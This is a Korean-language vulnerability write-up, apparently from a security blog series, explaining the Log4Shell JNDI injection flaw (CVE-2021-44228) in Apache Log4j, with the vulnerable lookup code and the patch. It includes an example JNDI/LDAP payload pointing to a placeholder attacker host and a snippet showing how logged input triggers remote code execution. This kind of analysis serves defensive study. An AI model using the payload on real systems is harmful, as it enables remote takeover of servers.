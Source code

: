 ```yaml
---
title: "[하루한줄] CVE-2021-44228: log4shell-전 세계 서버를 공격 가능한 최악의 log4j 취약점"
author: L0ch
tags: [L0ch, jndi injection, log4j, log4shell, cve, cve-2021-44228, rce, java]
categories: [1day1line]
date: 2021-12-12 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://xz.aliyun.com/t/10649

## Target

- Apache Log4j 2.x <= 2.15.0-rc1

## Explain
log4j는 전 세계적으로 인기있는 logging library로 Mincraft, Apple iCloud, Apache, Twitter, Steam, Amazon, Tesla 등 현재 수많은 소프트웨어에서 사용되고 있습니다. 이러한 log4j에서 원격 코드 실행이 가능한 JNDI Injection 취약점이 발견되었습니다.

해당 취약점의 이름은 log4shell로 명명되었으며 log4j를 사용하는 소프트웨어 대부분을 공격 가능한 높은 파급력과 비교적 간단하다는 점 때문에 취약점의 위험성을 평가하는 지표인 cvss 점수의 최고점 10.0이 부여되었습니다. log4shell 취약점의 영향을 받는 소프트웨어는 [링크](https://github.com/YfryTchsGD/Log4jAttackSurface)에서 확인할 수 있으며, 2021/12/12 기준 지속적으로 업데이트되고 있습니다.

<br>

취약점은 [JndiManager.java](https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3#diff-271353c1076e53f6893261e4420de27d34588bfd782806b5c66a3465c43b7f51) 의 [JNDI lookup](https://logging.apache.org/log4j/2.x/manual/lookups.html) 기능에서 발견되었습니다.

```java
public <T> T lookup(final String name) throws NamingException {
        return (T) this.context.lookup(name);
}
```

JNDI(Java Naming and Directory Interface)는 자바 애플리케이션에서 외부 디렉터리 서비스에 접근하기 위한 API로, 원격지 서버의 객체를 바인딩해 애플리케이션에서 접근할 수 있는 기능입니다. 이러한 외부 디렉터리 서비스 프로토콜은 대표적으로 LDAP(Lightweight Directory Access Protocol)과 LDAPS(Secure LDAP)이 있습니다.

해당 lookup 기능의 name 매개변수에 `${jndi:ldap://[attacker site]/malicious_class}` 와 같이 해커가 제어하는 서버의 악성 클래스 경로를 전달하게 되면 lookup은 `${}` 안의 내용을 파싱해 실행합니다. 이때 JNDI:LDAP 프로토콜로 접근하는 외부 디렉터리 서비스에 대한 검증이 존재하지 않아 해커의 악성 클래스를 바인딩하게 되고 악성 클래스에 포함된 임의 코드를 원격에서 실행할 수 있습니다.

```java
String userInput = "${jndi:ldap://[attacker site]/malicious_class}";
logger.info("log {} ", userInput)
```

위와 같이 취약한 서버가 log4j를 통해 request와 같은 user input을 기록하는 경우 원격 코드 실행이 트리거 됩니다.

> JNDI와 JNDI Injection은 [[하루한줄\] CVE-2021-2109 : 오라클 Weblogic Server 원격 코드 실행 취약점](https://hackyboiz.github.io/2021/01/26/l0ch/2021-01-26/)에서도 활용되었습니다.





패치는 log의 매개변수 name에 전달되는 프로토콜 및 ldap 서버, 클래스에 대한 필터를 추가하는 코드를 추가하는 것으로 이루어졌습니다.

```java
public synchronized <T> T lookup(final String name) throws NamingException {
        try {
            URI uri = new URI(name);
            if (uri.getScheme() != null) {
                if (!allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {
                    LOGGER.warn("Log4j JNDI does not allow protocol {}", uri.getScheme());
                    return null;
                }
                if (LDAP.equalsIgnoreCase(uri.getScheme()) || LDAPS.equalsIgnoreCase(uri.getScheme())) {
                    if (!allowedHosts.contains(uri.getHost())) {
                        LOGGER.warn("Attempt to access ldap server not in allowed list");
                        return null;
                    }
                    Attributes attributes = this.context.getAttributes(name);
                    if (attributes != null) {
                        // In testing the "key" for attributes seems to be lowercase while the attribute id is
                        // camelcase, but that may just be true for the test LDAP used here. This copies the Attributes
                        // to a Map ignoring the "key" and using the Attribute's id as the key in the Map so it matches
                        // the Java schema.
                        Map<String, Attribute> attributeMap = new HashMap<>();
                        NamingEnumeration<? extends Attribute> enumeration = attributes.getAll();
                        while (enumeration.hasMore()) {
                            Attribute attribute = enumeration.next();
                            attributeMap.put(attribute.getID(), attribute);
                        }
                        Attribute classNameAttr = attributeMap.get(CLASS_NAME);
                        if (attributeMap.get(SERIALIZED_DATA) != null) {
                            if (classNameAttr != null) {
                                String className = classNameAttr.get().toString();
                                if (!allowedClasses.contains(className)) {
                                    LOGGER.warn("Deserialization of {} is not allowed", className);
                                    return null;
                                }
                            } else {
                                LOGGER.warn("No class name provided for {}", name);
                                return null;
                            }
                        } else if (attributeMap.get(REFERENCE_ADDRESS) != null
                                || attributeMap.get(OBJECT_FACTORY) != null) {
                            LOGGER.warn("Referenceable class is not allowed for {}", name);
                            return null;
                        }
                    }
                }
            }
        } catch (URISyntaxException ex) {
            // This is OK.
```

해당 패치의 커밋로그는 [링크](https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3#) 에서 확인할 수 있습니다.

## Reference

https://logging.apache.org/log4j/2.x/security.html

https://github.com/feihong-cs/JNDIExploit

https://github.com/YfryTchsGD/Log4jAttackSurface

https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/

https://isc.sans.edu/diary/rss/28120